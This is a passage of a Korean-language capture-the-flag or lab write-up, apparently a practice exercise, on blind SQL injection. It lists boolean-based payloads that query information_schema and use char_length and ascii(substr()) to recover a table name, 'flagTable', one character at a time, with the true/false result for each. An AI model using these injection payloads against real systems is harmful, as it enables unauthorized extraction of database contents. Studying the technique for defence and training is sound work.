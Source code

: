 #### 3.2.3. 3번째 table
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 10) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 20) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 15) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 13) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 14) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) = 14) #**
-> O  
-> 😱 14개...  
-> 🤔 혹시 plusflagtable일까?  

### 3.3. 이름 확인
#### 3.3.1. 1번째 table
* 예측한 table 이름이 맞나 확인해보겠다

---

1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 1, 1)) = 102) #**
-> O  
-> 찾은 글자: fxxx xxxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 5, 1)) = 84) #**
-> O  
-> 찾은 글자: fxxx Txxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 3, 1)) = 97) #**
-> O  
-> 찾은 글자: fxax Txxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 6, 1)) = 97) #**
-> O  
-> 찾은 글자: fxax Taxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 9, 1)) = 101) #**
-> O  
-> 찾은 글자: fxax Taxxe  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 2, 1)) = 108) #**
-> O  
-> 찾은 글자: flax Taxxe  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 8, 1)) = 108) #**
-> O  
-> 찾은 글자: flax Taxle  
-> 예측한 글자: flagTable  
